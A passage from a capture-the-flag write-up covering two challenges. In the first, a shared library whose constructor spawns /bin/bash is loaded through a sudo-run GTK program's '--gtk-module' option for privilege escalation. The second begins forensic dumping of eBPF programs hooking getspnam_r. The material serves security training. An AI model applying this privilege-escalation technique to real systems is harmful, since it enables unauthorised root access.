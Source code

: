 Every GTK program takes a number of extra command line parameters including one called "--gtk-module" where you can specify extra libraries to load, similar to LD_PRELOAD. We can use this to build a library which will simply open a shell on load and provide it as an argument to the program:

```bash
cat << EOF > privesc.c
#include <stdlib.h>
__attribute__((constructor)) void privesc()
{  
    system("/bin/bash");
}
EOF
$ gcc privesc.c -shared -o privesc.so
$ XAUTHORITY=$(pwd)/.Xauthority sudo /usr/local/bin/mapviewer --gtk-module=$(pwd)/privesc.so
```

Finally we can check the history to see what the intruder did to access the other server and do the same thing ourselves to get the flag.

```bash
$ cat .bash_history
$ ssh backup@maps-backups.challenges.adversary.zone
```

Flag: `CS{sudo_+_GTK_=_pwn}` 

### Egg Hunt

Again we are given an image and a server running the same image. We can load the snapshot in the image and find that three eBPF programs have been loaded into the kernel. We can dump a disassembly of these programs.

```bash
$ bpftool prog show
...
16: tracepoint  name kprobe_netif_re  tag e0d014d973f44213  gpl
	loaded_at 2021-01-27T21:11:18+0000  uid 0
	xlated 2344B  jited 1544B  memlock 4096B  map_ids 4
	btf_id 5
17: kprobe  name getspnam_r_entr  tag acab388c8f8ef0f9  gpl
	loaded_at 2021-01-27T21:11:18+0000  uid 0
	xlated 336B  jited 223B  memlock 4096B  map_ids 3
	btf_id 5
18: kprobe  name getspnam_r_exit  tag ceeabb4ac5b9ed45  gpl
	loaded_at 2021-01-27T21:11:18+0000  uid 0
	xlated 328B  jited 209B  memlock 4096B  map_ids 3,4
	btf_id 5

$ prog dump xlated id 16 | tee bpf_16.txt
int kprobe_netif_receive_skb(struct netif_receive_skb_args * args):
...

$ prog dump xlated id 17 | tee bpf_17.txt
int getspnam_r_entry(long long unsigned int * ctx):
...

$ prog dump xlated id 18 | tee bpf_18.txt
int getspnam_r_exit(long long unsigned int * ctx):
...

```
